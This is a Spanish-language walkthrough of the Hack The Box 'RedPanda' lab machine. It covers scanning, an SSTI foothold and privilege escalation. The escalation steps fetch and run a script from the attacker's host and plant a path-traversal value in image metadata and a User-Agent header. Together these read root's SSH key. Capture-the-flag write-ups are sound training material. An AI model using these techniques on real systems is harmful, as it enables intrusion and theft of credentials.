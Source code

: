 # Walkthrough para la Máquina "RedPanda" en Hack The Box

Este es un paso a paso detallado de cómo comprometí la máquina RedPanda en Hack The Box. Agradecimientos especiales a [gatogamer1155](https://gatogamer1155.github.io/hackthebox/redpanda/) por proporcionar una solución que me guió en mi proceso. Solucion oficial: https://0xdf.gitlab.io/2022/11/26/htb-redpanda.html

## Escaneo Inicial

- **Nmap:**
  ```
  nmap -p 22,8080 -sC -sV -oN nmap_scan.txt 10.10.11.170
  ```
  Resultado:
  - Puerto 22 (SSH) abierto.
  - Puerto 8080 (HTTP-Proxy) abierto.

- **Gobuster y WhatWeb:**
  ```
  gobuster dir -u http://10.10.11.170:8080 -w /usr/share/wordlists/dirb/common.txt
  whatweb http://10.10.11.170:8080
  ```
  Resultado:
  - No se obtuvo ninguna información útil.

## Identificación de Vulnerabilidades

- **Vulnerabilidad Encontrada:**
  - Se identificó una vulnerabilidad de Inyección de Plantillas del Lado del Servidor (Server Side Template Injection - SSTI).

- **Payload Utilizado:**
  ```
  python3 payload.py
  ```

## Escalada de Privilegios

1. **Acceso a Usuario:**
   ```
   cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
   ```

2. **Transferencia de Script Python:**
   ```
   wget http://10.10.16.23:8000/sell2.py
   chmod 755 sell2.py
   python3 sell2.py
   ```

3. **Exfiltración de Credenciales:**
   ```
   wget (imagen jpg aleatoria) gaton.jpg
   exiftool -Artist="../home/woodenk/privesc" gaton.jpg
   scp gaton.jpg woodenk@10.10.11.170:.
   ```

4. **Creación de Archivo XML:**
   ```
   cat privesc_creds.xml
   ```

5. **Carga de Archivo XML y Petición Curl:**
   ```
   curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gaton.jpg"
   ```

6. **Visualización de Archivo XML Modificado:**
   ```
   cat privesc_creds.xml
   ```

7. **Conexión SSH con la Clave Privada:**
   ```
   ssh root@10.10.11.170 -i id_rsa
   ```

8. **Visualización de la Flag:**
   ```
   cat root.txt
   ```

## Notas Finales

- Copié la clave SSH, creé un archivo llamado "id_rsa" y lo moví a ~/.ssh.
  ```
  chmod 400 ~/.ssh/id_rsa
  ```

- Esto fue necesario para evitar problemas de permisos al intentar conectarme por SSH.

Este walkthrough proporciona una descripción estructurada de mi proceso para comprometer la máquina RedPanda en Hack The Box. ¡Espero que sea útil y te inspire a mejorar tus habilidades en ciberseguridad!

